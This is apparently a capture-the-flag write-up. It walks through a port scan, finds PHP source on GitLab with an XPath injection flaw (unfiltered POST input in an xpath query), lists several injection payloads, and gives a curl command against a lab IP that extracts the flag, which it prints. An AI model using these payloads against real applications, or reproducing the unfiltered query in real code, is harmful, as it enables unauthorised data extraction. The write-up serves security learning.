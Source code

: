 # Portscan

Scanning the host with [nmap](../nmap.txt) reveals an http server on port `64234`.

There is a scary website with a form.

![](screenshots/1.png)

# Gitlab

There is a gitlab link with the user [Erstuujnszki](https://gitlab.com/Erstuujnszki), with some recent activity in the [blu](https://gitlab.com/ctf9353735/blu) repository ([blu.zip](workdir/blu.zip))

![](screenshots/2.png)

# Source code

The code is vulnerable to XPath injection. The user input is used in the query without filtering.

```php
$results = $xml->xpath("/users/user[name='{$_POST['name']}']/task");
```

# Exploit

Using crafted queries, the data printed can be controlled.

* `' or 1 and position()='1`
* `' or 1]\x00`
* `' or 1]/..//name\x00`
* `' or 1]/../..//name\x00`
* `' or 1]/../..//text()\x00`

![](screenshots/3.png)

The underlying xml structure and content can be slowly recovered with various queries or tools like `xcat`.

A more simpler method is just query for the flag format.

```bash
curl -s -X POST 'http://10.10.1.10:64234/index.php' --data-binary "input=$(printf %s "' or 1]/../..//*[text()[contains(.,'CQ24')]]"|jq -sRr @uri)%00"
```

![](screenshots/4.png)

# Flag
`CQ24{DonTHugMeIAmScared}`